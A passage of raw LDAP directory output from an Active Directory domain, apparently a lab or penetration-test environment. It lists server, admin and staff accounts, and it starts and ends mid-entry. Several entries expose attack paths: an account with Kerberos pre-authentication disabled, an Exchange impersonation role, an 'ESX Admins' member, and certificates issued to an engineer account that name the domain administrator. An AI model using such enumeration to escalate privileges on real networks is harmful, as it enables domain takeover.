localPolicyFlags: 0
pwdLastSet: 134086068810503969
primaryGroupID: 515
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaUQQAAA==
accountExpires: 9223372036854775807
logonCount: 488
sAMAccountName: EX-SRV$
sAMAccountType: 805306369
operatingSystem: Windows Server 2022 Standard
operatingSystemVersion: 10.0 (20348)
dNSHostName: Ex-Srv.telecore.ad
servicePrincipalName: IMAP/EX-SRV
servicePrincipalName: IMAP/Ex-Srv.telecore.ad
servicePrincipalName: IMAP4/EX-SRV
servicePrincipalName: IMAP4/Ex-Srv.telecore.ad
servicePrincipalName: POP/EX-SRV
servicePrincipalName: POP/Ex-Srv.telecore.ad
servicePrincipalName: POP3/EX-SRV
servicePrincipalName: POP3/Ex-Srv.telecore.ad
servicePrincipalName: exchangeRFR/EX-SRV
servicePrincipalName: exchangeRFR/Ex-Srv.telecore.ad
servicePrincipalName: exchangeAB/EX-SRV
servicePrincipalName: exchangeAB/Ex-Srv.telecore.ad
servicePrincipalName: exchangeMDB/EX-SRV
servicePrincipalName: exchangeMDB/Ex-Srv.telecore.ad
servicePrincipalName: SMTP/EX-SRV
servicePrincipalName: SMTP/Ex-Srv.telecore.ad
servicePrincipalName: SmtpSvc/EX-SRV
servicePrincipalName: SmtpSvc/Ex-Srv.telecore.ad
servicePrincipalName: WSMAN/Ex-Srv
servicePrincipalName: WSMAN/Ex-Srv.telecore.ad
servicePrincipalName: RestrictedKrbHost/EX-SRV
servicePrincipalName: HOST/EX-SRV
servicePrincipalName: RestrictedKrbHost/Ex-Srv.telecore.ad
servicePrincipalName: HOST/Ex-Srv.telecore.ad
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: FALSE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250821141534.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 16010101181217.0Z
lastLogonTimestamp: 134086068715191521
msDS-SupportedEncryptionTypes: 28
msExchCapabilityIdentifiers: 1
msExchRMSComputerAccountsBL: CN=FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa
 1e042,CN=Users,DC=telecore,DC=ad

# virt-admin, Users, telecore.ad
dn: CN=virt-admin,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: virt-admin
givenName: virt-admin
distinguishedName: CN=virt-admin,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729123753.0Z
whenChanged: 20250729132852.0Z
displayName: virt-admin
uSNCreated: 13049
memberOf: CN=ESX Admins,CN=Users,DC=telecore,DC=ad
uSNChanged: 13134
name: virt-admin
objectGUID:: mRikiSMLV0GXCoNnwsHuhg==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 133982744188800939
lastLogoff: 0
lastLogon: 133982749814042473
pwdLastSet: 133982662732385784
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaVAQAAA==
accountExpires: 9223372036854775807
logonCount: 5
sAMAccountName: virt-admin
sAMAccountType: 805306368
userPrincipalName: virt-admin@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z
lastLogonTimestamp: 133982693321173470

# ESXI-VD, Win Servers, telecore.ad
dn: CN=ESXI-VD,OU=Win Servers,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: ESXI-VD
description: esxi-vd.telecore.ad
distinguishedName: CN=ESXI-VD,OU=Win Servers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729135327.0Z
whenChanged: 20251126053237.0Z
displayName: ESXI-VD$
uSNCreated: 13210
uSNChanged: 152991
name: ESXI-VD
objectGUID:: T67LfYAk30O+gzD5XkHgdw==
userAccountControl: 4096
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 134086069062066637
lastLogoff: 0
lastLogon: 134086248726285651
localPolicyFlags: 0
pwdLastSet: 134086087570191450
primaryGroupID: 515
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaVgQAAA==
accountExpires: 9223372036854775807
logonCount: 65535
sAMAccountName: ESXI-VD$
sAMAccountType: 805306369
operatingSystem: VMkernel
operatingSystemVersion: 6.7.0
operatingSystemServicePack: #1 SMP Release build-8169922 Apr  3 2018 14:48:22
dNSHostName: esxi-vd.telecore.ad
servicePrincipalName: HOST/esxi-vd
servicePrincipalName: HOST/esxi-vd.telecore.ad
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: FALSE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250821141534.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 16010101181217.0Z
mS-DS-CreatorSID:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaVAQAAA==
lastLogonTimestamp: 134086069573472678

# tel_ops1, Users, telecore.ad
dn: CN=tel_ops1,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: tel_ops1
givenName: tel_ops1
distinguishedName: CN=tel_ops1,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250820104931.0Z
whenChanged: 20251004132812.0Z
displayName: tel_ops1
uSNCreated: 42835
uSNChanged: 151635
name: tel_ops1
objectGUID:: VqTz+KiduUSRZYsDqzGvPA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 134022417379740814
lastLogoff: 0
lastLogon: 134030147880461932
pwdLastSet: 134001605717354053
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaWwQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: tel_ops1
sAMAccountType: 805306368
userPrincipalName: tel_ops1@telecore.ad
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 134040580922766696
msExchUserBL: CN=Impersonation_tel_ops1,CN=Role Assignments,CN=RBAC,CN=Telecor
 e Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telecore,DC=ad

# tel_support01, Users, telecore.ad
dn: CN=tel_support01,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: tel_support01
givenName: tel_support01
distinguishedName: CN=tel_support01,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250820105019.0Z
whenChanged: 20251004112909.0Z
displayName: tel_support01
uSNCreated: 42842
uSNChanged: 147476
name: tel_support01
objectGUID:: 0FaBvRJW10Sr2iZtkzDGSA==
userAccountControl: 4260352
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 134026716078273493
lastLogoff: 0
lastLogon: 134040509494807565
pwdLastSet: 134001656223221205
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaXAQAAA==
accountExpires: 9223372036854775807
logonCount: 9
sAMAccountName: tel_support01
sAMAccountType: 805306368
userPrincipalName: tel_support01@telecore.ad
lockoutTime: 0
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 134040509494807565
msDS-SupportedEncryptionTypes: 0

# tel_engineer01, Users, telecore.ad
dn: CN=tel_engineer01,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: tel_engineer01
userCertificate:: MIIGnzCCBYegAwIBAgITFgAAAAtWq/mRc4PiewAAAAAACzANBgkqhkiG9w0B
 AQsFADBMMRIwEAYKCZImiZPyLGQBGRYCYWQxGDAWBgoJkiaJk/IsZAEZFgh0ZWxlY29yZTEcMBoGA
 1UEAxMTdGVsZWNvcmUtUEtJLVNSVi1DQTAeFw0yNTA5MTgxMzI2MTdaFw0yNjA5MTgxMzI2MTdaMB
 kxFzAVBgNVBAMMDlRlbF9lbmdpbmVlcjAxMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQE
 A5kK0EeEAoH6haVPWgVE7KxZMQn85WhWvHdYLIDSovaUkRLrh4eUmDqZ4vEyET6N3rWBtnb1Ri30a
 20Yq3jB/rC/cq3mSQbCsVZaOPv8X72HRxLwQ+WpAscGlf8bEY+YrFGb9GMvh9vRGQN1qw3Gun5o9b
 OyT9ukpA67tihR3W3Detd5ZHHuNDPHXcIxi/eEyHoP3dGCxZmrv1b89b0A9jTv9uZQFpsyD75ftEc
 03yhz3sYYR4wHj7jvb8vbSD5TP7H7uLHfzl0sIed5VgkuGCyNrvq4xu8wY0VAVTzfoohcwaJc8qi/
 CJhjats3VZr4WOLDGvTLptYJoqyf+5nUEXwIDAQABo4IDqzCCA6cwTQYJKwYBBAGCNxkCBEAwPqA8
 BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTE1ODgyNDc0MDctNDEwNjI1MDM5LTE1MTE3OTQ1MjItN
 TAwMIGDBgNVHREEfDB6oCkGCisGAQQBgjcUAgOgGwwZYWRtaW5pc3RyYXRvckB0ZWxlY29yZS5hZI
 ZNdGFnOm1pY3Jvc29mdC5jb20sMjAyMi0wOS0xNDpzaWQ6Uy0xLTUtMjEtMTU4ODI0NzQwNy00MTA
 2MjUwMzktMTUxMTc5NDUyMi01MDAwHQYDVR0OBBYEFNhYyE57yX27l97txRPBEitUCEh4MB8GA1Ud
 IwQYMBaAFBCZ6gHKqez7MgIqd1c4j+kMa43eMIHRBgNVHR8EgckwgcYwgcOggcCggb2GgbpsZGFwO
 i8vL0NOPXRlbGVjb3JlLVBLSS1TUlYtQ0EsQ049UEtJLVNydixDTj1DRFAsQ049UHVibGljJTIwS2
 V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1
 hZD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
 aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggrBgEFBQcwAoaBpWxkYXA6Ly8vQ049dGVsZ
 WNvcmUtUEtJLVNSVi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydm
 ljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1hZD9jQUNlcnRpZmljYXRlP2Jhc2U
 /b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAOBgNVHQ8BAf8EBAMCBaAwPAYJKwYB
 BAGCNxUHBC8wLQYlKwYBBAGCNxUIhPPde4eioTqEhYM1guXQa4H6o1Ybh7fWPu7gPgIBZAIBAzApB
 gNVHSUEIjAgBggrBgEFBQcDAgYIKwYBBQUHAwQGCisGAQQBgjcKAwQwNQYJKwYBBAGCNxUKBCgwJj
 AKBggrBgEFBQcDAjAKBggrBgEFBQcDBDAMBgorBgEEAYI3CgMEMEQGCSqGSIb3DQEJDwQ3MDUwDgY
 IKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAHBgUrDgMCBzAKBggqhkiG9w0DBzANBgkqhkiG
 9w0BAQsFAAOCAQEAx0v8ZcHnR46jc1tKiVMP/UZm849MrSLjH1sJzJCXuYrmRdyKrRXYKRMOoZe1c
 Ldc4n7y+Z+6BFkn9A8pMpZGehrQcXG9lCs4arToFmNvcEGguEvxnxco2ihFMz7nmQ4shXi2E1/Ja7
 uw1Sd4vbEf0BZ8HvtuJCTr+lec3txiUsrVp9VQ8LkvLUUQVjxCim6JDuId/cPOxo1YaEh4LD3a94T
 C8Z5yrH56OeHRYHxQ8wWtax0xTw14/2qHdfCkcsm66bWTz6bL0l7A6dRAY+bTMnd8o9uVSlqsm5/k
 gwt00kW4mgVcfDT//0s1Cw88RxEFySLTDM9EcPbvIU/vZp+4Rg==
userCertificate:: MIIGnzCCBYegAwIBAgITFgAAAApuOiBqK5EVKAAAAAAACjANBgkqhkiG9w0B
 AQsFADBMMRIwEAYKCZImiZPyLGQBGRYCYWQxGDAWBgoJkiaJk/IsZAEZFgh0ZWxlY29yZTEcMBoGA
 1UEAxMTdGVsZWNvcmUtUEtJLVNSVi1DQTAeFw0yNTA5MTgxMzIxMTZaFw0yNjA5MTgxMzIxMTZaMB
 kxFzAVBgNVBAMMDlRlbF9lbmdpbmVlcjAxMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQE
 ArHYryXbkPa5BA6+bzMhbdRvjApAUse8cN+DQ0n0kelo907ZXh1PtwgqDDq9TDG1qzcl9aLmXxrMf
 uvMpuNtxkSNVbZLrq7yLDOYK3tUhrs2m/PFvLWZaKSanCOOYgkgxreLiySWqVJd5XHLUjzbaA1qZq
 EidREfh/z0Kx3bUiFcWAJ4L9y9yzfEg31GMuwZ485zWYf/MDTSciWp9oaO6U6Zi6Jdm3uLui1aygr
 +ssdEh6oau+PVbyxqGEWr60esTroHPGb4eSiK1H+wJzhSG8rI7Y9z9tMRjTz6FgUVXLWaWNd1rAsk
 u/q3umepZrS21KkPj5T/8WOqVi96Zga4OLQIDAQABo4IDqzCCA6cwTQYJKwYBBAGCNxkCBEAwPqA8
 BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTE1ODgyNDc0MDctNDEwNjI1MDM5LTE1MTE3OTQ1MjItN
 TAwMIGDBgNVHREEfDB6oCkGCisGAQQBgjcUAgOgGwwZYWRtaW5pc3RyYXRvckB0ZWxlY29yZS5hZI
 ZNdGFnOm1pY3Jvc29mdC5jb20sMjAyMi0wOS0xNDpzaWQ6Uy0xLTUtMjEtMTU4ODI0NzQwNy00MTA
 2MjUwMzktMTUxMTc5NDUyMi01MDAwHQYDVR0OBBYEFA4rd6bmKg3t44nxfSZrDVSM9iWeMB8GA1Ud
 IwQYMBaAFBCZ6gHKqez7MgIqd1c4j+kMa43eMIHRBgNVHR8EgckwgcYwgcOggcCggb2GgbpsZGFwO
 i8vL0NOPXRlbGVjb3JlLVBLSS1TUlYtQ0EsQ049UEtJLVNydixDTj1DRFAsQ049UHVibGljJTIwS2
 V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1
 hZD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
 aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggrBgEFBQcwAoaBpWxkYXA6Ly8vQ049dGVsZ
 WNvcmUtUEtJLVNSVi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydm
 ljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1hZD9jQUNlcnRpZmljYXRlP2Jhc2U
 /b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAOBgNVHQ8BAf8EBAMCBaAwPAYJKwYB
 BAGCNxUHBC8wLQYlKwYBBAGCNxUIhPPde4eioTqEhYM1guXQa4H6o1Ybh7fWPu7gPgIBZAIBAzApB
 gNVHSUEIjAgBggrBgEFBQcDAgYIKwYBBQUHAwQGCisGAQQBgjcKAwQwNQYJKwYBBAGCNxUKBCgwJj
 AKBggrBgEFBQcDAjAKBggrBgEFBQcDBDAMBgorBgEEAYI3CgMEMEQGCSqGSIb3DQEJDwQ3MDUwDgY
 IKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAHBgUrDgMCBzAKBggqhkiG9w0DBzANBgkqhkiG
 9w0BAQsFAAOCAQEAEeQjvDDg9gnzz8LYKE9GTB7N03MSfIvIpSnfM351H6GoP12l26MfVo/gsifGd
 qHYH++OcJDe1TKPH9484QhsyGAXXCypLqjkMKeO8kl/Vm4xvZfI2fBAmEQf1AQ6L605h0mdUdyzeo
 V7TlDAlL6WpazXolv95I8SYkIuwKIJGPSfIyhNpJRM6cubHvLzdhSnhCmS0HitZAQKFT4DK9N6e+2
 SacBLC5FNaH2naX9LyV2wjHreebjMyn3havDBm0Sb+YmR6e8NdRxB1LmOC37elYtPvP6jlcbr7Ud5
 5jDmCDQo+O94xsYQyNf+fLkzghV+V7TI2KuV4irFQu8W56u64Q==
userCertificate:: MIIGnzCCBYegAwIBAgITFgAAAAczuoYQ4foZGwAAAAAABzANBgkqhkiG9w0B
 AQsFADBMMRIwEAYKCZImiZPyLGQBGRYCYWQxGDAWBgoJkiaJk/IsZAEZFgh0ZWxlY29yZTEcMBoGA
 1UEAxMTdGVsZWNvcmUtUEtJLVNSVi1DQTAeFw0yNTA4MjYxMjM4MThaFw0yNjA4MjYxMjM4MThaMB
 kxFzAVBgNVBAMMDlRlbF9lbmdpbmVlcjAxMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQE
 AmbpSZpXF4ZrjCJjB2IdoeT601sFzHIvtSvTbwYa8rjK40Oeehkhk7YlT5CLWPjQl5oeoVY1TbVYg
 FMUxFUT3162m4p70BXiLruBcGo121iptaeL0mKDUsQSOsNOyr2i0qvlvQcZL9Wv4uyYvNfIClNKGj
 HSINd6Iaj/BzbXpU3YXM/IKiDdogEYU9VJykHGdjkQhH6AtzJlpee5ppceAoZd/TCWrQ0k28Zjpj+
 f6ClFmXhhBeTnYbSerEUx01LlycY7BxLtmX8iJg8BQZTaqgyMMIrxsLzZVwAD/RBhD/6bY1OnUx3j
 FY2gK/8BKcYYZ0ioQQuYFbXmmXmhuPaUKpwIDAQABo4IDqzCCA6cwTQYJKwYBBAGCNxkCBEAwPqA8
 BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTE1ODgyNDc0MDctNDEwNjI1MDM5LTE1MTE3OTQ1MjItN
 TAwMIGDBgNVHREEfDB6oCkGCisGAQQBgjcUAgOgGwwZYWRtaW5pc3RyYXRvckB0ZWxlY29yZS5hZI
 ZNdGFnOm1pY3Jvc29mdC5jb20sMjAyMi0wOS0xNDpzaWQ6Uy0xLTUtMjEtMTU4ODI0NzQwNy00MTA
 2MjUwMzktMTUxMTc5NDUyMi01MDAwHQYDVR0OBBYEFADlGnvN4ZtYrd9U+zpnnsxtHyj9MB8GA1Ud
 IwQYMBaAFBCZ6gHKqez7MgIqd1c4j+kMa43eMIHRBgNVHR8EgckwgcYwgcOggcCggb2GgbpsZGFwO
 i8vL0NOPXRlbGVjb3JlLVBLSS1TUlYtQ0EsQ049UEtJLVNydixDTj1DRFAsQ049UHVibGljJTIwS2
 V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1
 hZD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
 aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggrBgEFBQcwAoaBpWxkYXA6Ly8vQ049dGVsZ
 WNvcmUtUEtJLVNSVi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydm
 ljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1hZD9jQUNlcnRpZmljYXRlP2Jhc2U
 /b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAOBgNVHQ8BAf8EBAMCBaAwPAYJKwYB
 BAGCNxUHBC8wLQYlKwYBBAGCNxUIhPPde4eioTqEhYM1guXQa4H6o1Ybh7fWPu7gPgIBZAIBAzApB
 gNVHSUEIjAgBggrBgEFBQcDAgYIKwYBBQUHAwQGCisGAQQBgjcKAwQwNQYJKwYBBAGCNxUKBCgwJj
 AKBggrBgEFBQcDAjAKBggrBgEFBQcDBDAMBgorBgEEAYI3CgMEMEQGCSqGSIb3DQEJDwQ3MDUwDgY
 IKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAHBgUrDgMCBzAKBggqhkiG9w0DBzANBgkqhkiG
 9w0BAQsFAAOCAQEAZqc6M4J8PP2y7Q7FVxSlaaQMsjTVlzAh/I3TsBAlfZZYjAwzMMGfjptcTdEW7
 g/yucgxrsua2g0JK0/fKSh3Utw9j4lvyQPdOFugA4ZTAmf/O4JyCHQoyYd8ELy8Ns3DREVjy6woRq
 pv6g7PE2vy/jE2lHoQo7rlLfRTHEyzXJzfZca/xLIRG07DUoY6E3Kh5PDPgPX5XYJGRDFu3RExf6y
 RqyESgRKn8HOrNN7yCCLhF9ckqNigErMURmOfYzxgvlAP6clTCcIKdA7H/ylAcyeGjZPrLdR6nBVG
 JJmdHysOBw4pQJbhdYlaNgmngRyGHS5CUX+ewg0BSOukYKb7Qg==
userCertificate:: MIIGnzCCBYegAwIBAgITFgAAAAYdu/h25x0eiAAAAAAABjANBgkqhkiG9w0B
 AQsFADBMMRIwEAYKCZImiZPyLGQBGRYCYWQxGDAWBgoJkiaJk/IsZAEZFgh0ZWxlY29yZTEcMBoGA
 1UEAxMTdGVsZWNvcmUtUEtJLVNSVi1DQTAeFw0yNTA4MjUxNTA3NTNaFw0yNjA4MjUxNTA3NTNaMB
 kxFzAVBgNVBAMMDlRlbF9lbmdpbmVlcjAxMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQE
 A1OBtPlwdzY/keRDOGXCnOgHRUhkFBBSu+pW1O638DliPdN4NowLwx2DsYYhmLkutE/zdhnkpcPPE
 /vWw8dBO0SmS5dXgrw0OrKofIS+Fak0TIR50X9xLe9d0BpTEsYmYbZe+IqmX/Sra+vGTFbRQ+mQQx
 sRd2wCq83KS0CUPr2Kh2lVLza1Ke6BxiKVrmiMs1I9BI1Id5Z2tZR1ZX/3PO9Wevya2URZtwWEkl7
 wBGeC30amBFJoJ04xZW8Wa/XFL2o8x6sILMmstJk036rszYxOjfc/UvRkt8al2BBgn5CdD2tHFODe
 WTWZ84XNjZZJcToVgC1oh4ggeDLcv/Lw4ZwIDAQABo4IDqzCCA6cwTQYJKwYBBAGCNxkCBEAwPqA8
 BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTE1ODgyNDc0MDctNDEwNjI1MDM5LTE1MTE3OTQ1MjItN
 TAwMIGDBgNVHREEfDB6oCkGCisGAQQBgjcUAgOgGwwZYWRtaW5pc3RyYXRvckB0ZWxlY29yZS5hZI
 ZNdGFnOm1pY3Jvc29mdC5jb20sMjAyMi0wOS0xNDpzaWQ6Uy0xLTUtMjEtMTU4ODI0NzQwNy00MTA
 2MjUwMzktMTUxMTc5NDUyMi01MDAwHQYDVR0OBBYEFOwPRkQFaPz9kKVtxA+n7EzCCLBlMB8GA1Ud
 IwQYMBaAFBCZ6gHKqez7MgIqd1c4j+kMa43eMIHRBgNVHR8EgckwgcYwgcOggcCggb2GgbpsZGFwO
 i8vL0NOPXRlbGVjb3JlLVBLSS1TUlYtQ0EsQ049UEtJLVNydixDTj1DRFAsQ049UHVibGljJTIwS2
 V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1
 hZD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
 aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggrBgEFBQcwAoaBpWxkYXA6Ly8vQ049dGVsZ
 WNvcmUtUEtJLVNSVi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydm
 ljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1hZD9jQUNlcnRpZmljYXRlP2Jhc2U
 /b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAOBgNVHQ8BAf8EBAMCBaAwPAYJKwYB
 BAGCNxUHBC8wLQYlKwYBBAGCNxUIhPPde4eioTqEhYM1guXQa4H6o1Ybh7fWPu7gPgIBZAIBAzApB
 gNVHSUEIjAgBggrBgEFBQcDAgYIKwYBBQUHAwQGCisGAQQBgjcKAwQwNQYJKwYBBAGCNxUKBCgwJj
 AKBggrBgEFBQcDAjAKBggrBgEFBQcDBDAMBgorBgEEAYI3CgMEMEQGCSqGSIb3DQEJDwQ3MDUwDgY
 IKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAHBgUrDgMCBzAKBggqhkiG9w0DBzANBgkqhkiG
 9w0BAQsFAAOCAQEAQpCmnUtRttvKGsA25m97OUYcM66QTekln5SP8TCKfKS2F8eMgTpSqbXegZoTv
 6RnI7MlBDzZkjvaDbIeG1/sU3VXGo6xJYmQl6CDep7pZtRTQQTfGs/hGh/P7PcjaKES7+bJ9sxzSd
 tnACKWkkusTpVY1FnajOa0KZH7nhg8ufVbeHJHQMtkfL1zlo4rfc/QrqWYBEOJTpjkUGJKC7QXnZL
 +2QqGUSnxGk+os6Vitb1h/Ol849nvakkgZIWX84BgwhPuhTidzG/6LSe6i4HfbriMQ5mp4EFRZBdu
 Yu5r6hKzAX3Uhf8Rrs43DkH9pVWS1DrPs/+4UdGNLrLQvyWWEQ==
userCertificate:: MIIGnzCCBYegAwIBAgITFgAAAAVGbRqQbpv0ywAAAAAABTANBgkqhkiG9w0B
 AQsFADBMMRIwEAYKCZImiZPyLGQBGRYCYWQxGDAWBgoJkiaJk/IsZAEZFgh0ZWxlY29yZTEcMBoGA
 1UEAxMTdGVsZWNvcmUtUEtJLVNSVi1DQTAeFw0yNTA4MjIwODAzMDBaFw0yNjA4MjIwODAzMDBaMB
 kxFzAVBgNVBAMMDlRlbF9lbmdpbmVlcjAxMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQE
 A5fL+yOFP2qQeEFCH8kclmz8l0LMUc2Gql+Aw1NXQLTj+pDtDvJzB4dMk68ReaVHwYMQS3s6jveLd
 WsPgYVeEbCxqb+SZW2Vs43K00xf3Gz1ABR+Lqd26Lo0v2Hn6jVxITjpwVfDvoUDNSnSJhdPD3qirE
 dzPxFD8bZ/5orz0MuWHnNjpppDIiH2NrO9gjPtb9MCJDjwwLOI+pAQ1qIzNELGrw2y0E/OGV/qOGf
 emYTQc5ssB/N1MOtMUihcQBUWbL4v47cp/daHVOC38GrTj1Kf7APJgL8CKcTF3YzEg8xUEJ5hJPa2
 MXkTtNcQhvIh2NTt9rQ0Ew68WIFxflP3aCwIDAQABo4IDqzCCA6cwTQYJKwYBBAGCNxkCBEAwPqA8
 BgorBgEEAYI3GQIBoC4ELFMtMS01LTIxLTE1ODgyNDc0MDctNDEwNjI1MDM5LTE1MTE3OTQ1MjItN
 TAwMIGDBgNVHREEfDB6oCkGCisGAQQBgjcUAgOgGwwZYWRtaW5pc3RyYXRvckB0ZWxlY29yZS5hZI
 ZNdGFnOm1pY3Jvc29mdC5jb20sMjAyMi0wOS0xNDpzaWQ6Uy0xLTUtMjEtMTU4ODI0NzQwNy00MTA
 2MjUwMzktMTUxMTc5NDUyMi01MDAwHQYDVR0OBBYEFBiUmdO9IoTMhNDesixwkn/pX47lMB8GA1Ud
 IwQYMBaAFBCZ6gHKqez7MgIqd1c4j+kMa43eMIHRBgNVHR8EgckwgcYwgcOggcCggb2GgbpsZGFwO
 i8vL0NOPXRlbGVjb3JlLVBLSS1TUlYtQ0EsQ049UEtJLVNydixDTj1DRFAsQ049UHVibGljJTIwS2
 V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1
 hZD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
 aW9uUG9pbnQwgcUGCCsGAQUFBwEBBIG4MIG1MIGyBggrBgEFBQcwAoaBpWxkYXA6Ly8vQ049dGVsZ
 WNvcmUtUEtJLVNSVi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2Vydm
 ljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1hZD9jQUNlcnRpZmljYXRlP2Jhc2U
 /b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTAOBgNVHQ8BAf8EBAMCBaAwPAYJKwYB
 BAGCNxUHBC8wLQYlKwYBBAGCNxUIhPPde4eioTqEhYM1guXQa4H6o1Ybh7fWPu7gPgIBZAIBAzApB
 gNVHSUEIjAgBggrBgEFBQcDAgYIKwYBBQUHAwQGCisGAQQBgjcKAwQwNQYJKwYBBAGCNxUKBCgwJj
 AKBggrBgEFBQcDAjAKBggrBgEFBQcDBDAMBgorBgEEAYI3CgMEMEQGCSqGSIb3DQEJDwQ3MDUwDgY
 IKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAHBgUrDgMCBzAKBggqhkiG9w0DBzANBgkqhkiG
 9w0BAQsFAAOCAQEAR0GkeNNmaZTcD0vwVLUvaB5Gb4lJKS3e2Wf6OEcmd0lcqgaAeOECD+8eCJDHq
